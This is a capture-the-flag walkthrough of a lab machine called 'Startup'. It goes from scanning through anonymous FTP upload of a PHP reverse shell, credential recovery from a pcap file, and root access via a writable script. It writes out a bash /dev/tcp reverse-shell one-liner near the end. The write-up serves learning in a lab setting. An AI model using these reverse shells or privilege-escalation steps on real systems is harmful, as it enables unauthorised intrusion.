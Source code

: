 # Startup

- Recon-stage
    1. Ran threader3000 on machine

    ![Startup%20f86d1e1f739d484b9836192defb55a16/Untitled.png](Startup%20f86d1e1f739d484b9836192defb55a16/Untitled.png)

    2. Ran the suggested Nmap Scan

    ![Startup%20f86d1e1f739d484b9836192defb55a16/Untitled%201.png](Startup%20f86d1e1f739d484b9836192defb55a16/Untitled%201.png)

    From this we know that FTP is active and we can login as Anonmyous

    3. Ran a gobuster Scan

    ![Startup%20f86d1e1f739d484b9836192defb55a16/Untitled%202.png](Startup%20f86d1e1f739d484b9836192defb55a16/Untitled%202.png)

- Initial Foothold

    Logged in via FTP server and looked around for intresting files

    ![Startup%20f86d1e1f739d484b9836192defb55a16/Untitled%203.png](Startup%20f86d1e1f739d484b9836192defb55a16/Untitled%203.png)

    downloaded the notice.txt file using

    ```jsx
    get notice.txt
    ```

    and read that file..Nothing intresting was there tbh.

    Now went to the webserver and opened the folders we've seen before

    ![Startup%20f86d1e1f739d484b9836192defb55a16/Untitled%204.png](Startup%20f86d1e1f739d484b9836192defb55a16/Untitled%204.png)

    Notice how we have same folder with same content, that is a way to get the foothold.

    We can upload in the [FTP](https://www.notion.so/FTP-a9fa1ce71cf643aea1000510320b0227) a [reverse-shel](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)l and access it.

    ![Startup%20f86d1e1f739d484b9836192defb55a16/Untitled%205.png](Startup%20f86d1e1f739d484b9836192defb55a16/Untitled%205.png)

    we have to upload it in the `ftp` directory

    Now get a `nc` listener running on attacker machine and run the [reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) script.

    - There we go, we got a shell!

    ![Startup%20f86d1e1f739d484b9836192defb55a16/Untitled%206.png](Startup%20f86d1e1f739d484b9836192defb55a16/Untitled%206.png)

    Now lets upload linpeas and run it.

    Linpeas showed some weird folders that were not supposed to be there on the system.

    In one of these folders there existed a `pcapng` file

    Download it to attacker machine to further investigate it

- Investigation of the pcap

    It is a packet capture file and it might contain information of users who have logged in before us.

    In this we are looking for `[PSH , ACK]` and we will follow that stream to further investigate.

    ![Startup%20f86d1e1f739d484b9836192defb55a16/Untitled%207.png](Startup%20f86d1e1f739d484b9836192defb55a16/Untitled%207.png)

    - What is PSH Flag?

        `PSH` is a Push flag: [http://ask.wireshark.org/questions/20423/pshack-wireshark-capture](http://ask.wireshark.org/questions/20423/pshack-wireshark-capture)

        The Push flag tells the receiver's network stack to "push" the data
        straight to the receiving socket, and not to wait for any more packets
        before doing so.

        The Push flag usually means that data has been sent whilst overriding an in-built TCP efficiency delay, such as [Nagle's Algorithm](http://en.wikipedia.org/wiki/Nagle%27s_algorithm) or [Delayed Acknowledgements](http://en.wikipedia.org/wiki/TCP_delayed_acknowledgment).

        These delays make TCP networking more efficient at the cost of some
        latency (usually around a few tens of milliseconds). A latency-sensitive application does not want to wait around for TCP's efficiency delays so the application will usually disable them, causing data to be sent as
        quick as possible with a Push flag set.

    - What is ACK Flag?

        ACK is an acknowledgement Flag

    we got it!!

    ![Startup%20f86d1e1f739d484b9836192defb55a16/Untitled%208.png](Startup%20f86d1e1f739d484b9836192defb55a16/Untitled%208.png)

- User Escalation

    We got the username and password for the `user` using pcap forensics, now login through ssh

    ![Startup%20f86d1e1f739d484b9836192defb55a16/Untitled%209.png](Startup%20f86d1e1f739d484b9836192defb55a16/Untitled%209.png)

- Root Escalation

    Now we have a folder called scripts, lets see whats in there

    ![Startup%20f86d1e1f739d484b9836192defb55a16/Untitled%2010.png](Startup%20f86d1e1f739d484b9836192defb55a16/Untitled%2010.png)

    We can see only root user can run/edit  [planner.sh](http://planner.sh), but everyone can open and see its contents.

    we have a bash script called `print.sh` 

    ![Startup%20f86d1e1f739d484b9836192defb55a16/Untitled%2011.png](Startup%20f86d1e1f739d484b9836192defb55a16/Untitled%2011.png)

    we can edit this file as lennie

    ![Startup%20f86d1e1f739d484b9836192defb55a16/Untitled%2012.png](Startup%20f86d1e1f739d484b9836192defb55a16/Untitled%2012.png)

    now putting a bash reverse shell script.

    ```jsx
    bash -c 'exec bash -i &>/dev/tcp/{yourip}/{port} <&1'
    ```

    and starting a `nc` listener from our end, we got root

    ![Startup%20f86d1e1f739d484b9836192defb55a16/Untitled%2013.png](Startup%20f86d1e1f739d484b9836192defb55a16/Untitled%2013.png)

- Stuff i did which was not required
    1. Looked around for general CVE's suggested by linpeas
    2. Ran Kernel Exploit Suggester 2 and ran its suggested exploits like dirty cow and whatnot
    3. Failed in generating msfvenom script LOL